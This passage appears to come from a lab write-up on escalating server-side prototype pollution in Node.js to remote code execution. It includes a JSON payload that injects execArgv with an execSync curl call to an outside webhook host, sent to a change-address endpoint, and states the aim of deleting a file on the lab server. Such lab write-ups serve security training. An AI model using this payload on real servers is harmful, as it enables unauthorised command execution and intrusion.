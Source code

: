 In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and [command injection](https://portswigger.net/web-security/os-command-injection) sinks, you can potentially escalate prototype pollution to gain full RCE capability on the server.

### Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`

Armed with above information, we can try to pollute the global `Object.prototype` to add arbitrary properties, which will then execute OS command!

But first, let's confirm it's really vulnerable to Remote Code Execution (RCE) via server-side prototype pollution.

**Payload:** (Inspired from [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce#poisoning-__proto__))
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "QQsB0cKlcJXw90jYJXjy9WXsEDrxrMLQ",
    "__proto__": {
        "execArgv":[
            "--eval=require('child_process').execSync('curl https://webhook.site/9e750b29-46f0-4629-a07c-adeb8a7ed641')"
        ]
    }
}
```

**Send that payload in `/my-account/change-address`:**
